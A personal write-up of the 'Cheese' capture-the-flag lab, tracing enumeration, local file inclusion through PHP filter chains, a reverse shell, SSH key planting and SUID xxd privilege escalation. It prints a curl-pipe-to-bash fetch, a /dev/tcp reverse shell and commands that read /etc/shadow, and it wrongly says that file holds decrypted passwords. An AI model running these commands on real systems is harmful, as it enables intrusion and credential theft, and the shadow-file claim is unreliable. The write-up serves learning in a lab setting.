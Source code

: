 # CTF Writeup: Cheese

---

- Step 1: Enumeration -> nmap scan and found all ports open, I am assuming it is some sort of portspoofing
- Step 2: Accessing target ip through browser --> found website --> server is running
- Step 3: Intercepted traffic with running proxy and burp. Tried manipulating data packages, on login.php page --> no result,
tried out if sql injections work with ' but not working.
- Step 4: Used gobuster to search for hidden dir, but my wordlists were very limited. Researched on yt for better wordlists and results.
- Step 5: After looking into many hidden dir's, I found "/messages.html" in which there was a link, which lead me to another hidden dir, in which there was a php script integrated,
in which the php filters were able to execute commands on the web server. And got data from the server --> LFI = Local File Inclusion.
- Step 6: Made "resources=/etc/passwd" so I can see potential passwords and more informations.
Gathered information --> user comte, we have file-read permissions on /etc/passwd
- Step 7: Looked up and installed php filter chain generator tool and generated some filter codes, which also allow me to run reverse shells apparently.
- Step 8: executed command: python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  ' to generate code.
- Step 9: copied php filter code into file= and intercepted the request within burp and also send it to 
repeater and got access to server and a lot of information, now I will need to create a reverse shell.
- Step 10: Looked up google for a php filter reverse shell script -->
found "python3 php_filter_chain_generator.py --chain '<?= `curl -s -L machine_ip/revshell|bash` ?>'"
to generate php filter for an reverse shell
- Step 11: Setting up a listener which receives the reverse connection & starting a web server
to host the shell script
-  Step 12: added bash script within "revshell" file --> bash -i >& /dev/tcp/machine_ip/4444 0>&1
- Step 13: Gained a rev shell and found userflag with in /home/comte, but didn't had permissions to read it.
- Step 14: made ls -la within users and found out that authorized_keys has read and writing permissions --> copied my ssh public key into the authorized_keys
- Step 15: Gained SSH access "ssh chomte@machine_ip". --> cat userflag.txt
- Step 16: sudo -l to see what I am able to run --> lists me options --> gained information about a system called
exploit.timer
- Step 17: within /etc/systemd/ made cat exploit.timer to see the context & made cat exploit.service, and checked out what it does.
- Step 18: It gives everyone who executes it rights to "xxd", tested out the commands which were displayed and
figured out that I Should give the timer a value for example of 3s. Once the timer is over, I am assuming the code
gets executed.
- Step 19: had to educate myself about variable xxd, --> it has the SUID bit set, so we can access the file. 
using "./xxd "/etc/shadow" | xxd -r" it reads the shadow file which stores decrypted passwords, 
converts the passwords to hexa dump format for binarys and xxd -r reconstructs the original files, 
we are able to see the files in there now.
- Step 20: to access root flag we have to make the command: "./xxd "/root/root.txt" | xxd -r"

---

## Key Learnings

- I learned about how to use the repeater in burp properly
- I learned about php filter methods and gained new php filter scripts
- Learned a lot about rev shells
- Gained general knowledge of data flow and data manipulation -> how to test if sql injections work
- Further improve ssh knowledge 
- Learned about sudo -l -> Checks which privileged commands current user is allowed to run.
- Further improved my directory knowledge --> /etc/shadow saves decrypted passwords from users.
